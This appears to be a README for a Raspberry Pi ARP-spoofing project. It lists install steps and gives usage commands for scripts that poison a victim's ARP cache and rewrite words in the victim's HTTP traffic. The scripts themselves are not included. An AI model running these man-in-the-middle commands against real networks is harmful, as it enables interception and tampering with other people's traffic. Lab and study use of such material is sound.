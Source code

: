 # arpspoof

* Install Scapy
'''sudo apt-get install python3-scapy'''

Install iptables
sudo apt-get install

Install NetfilterQueue
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install

On your Raspberry Pi:
Open one terminal and run arp-psn.py
sudo python3 arp-psn.py <victim ip> <gateway ip>
  
Open another terminal and run httpspoof.py
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
Note: the word to replace and replacement word must have the same number of characters
  
On the computer that is associated with <victim ip>, access a http website.
